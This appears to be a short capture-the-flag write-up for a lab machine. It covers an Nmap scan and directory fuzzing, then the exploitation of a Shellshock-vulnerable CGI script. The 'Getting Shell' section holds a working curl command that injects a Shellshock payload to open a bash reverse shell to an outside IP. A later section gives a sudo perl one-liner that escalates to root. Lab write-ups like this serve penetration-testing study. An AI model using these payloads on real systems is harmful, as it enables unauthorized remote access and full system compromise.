 # ENUM

### Nmap Scan

```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

### Detailed Scan
```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

***
### Dir Fuzzing
**Tool Used:- `Dirbuster`**

Found `/cgi-bin`  dir but ==> 404

 - CGI-bin is a folder used to **house scripts** that will interact with a Web browser to provide functionality for a Web page or website

On Fuzzing for possible scripts using `Dirbuster`

found `/cgi-bin/user.sh`
***

# Getting Shell

Found to be Vuln to `Shell-Shock`

- https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock


```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.47/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

Got a `Rev-Shell` 
***
# Prev Esc
Checking User's Privilage: `sudo -l`

user can run `/usr/bin/perl` with `NOPASSWD`

```bash
sudo perl -e 'exec "/bin/sh";'
``` 

- https://gtfobins.github.io/gtfobins/perl/

***
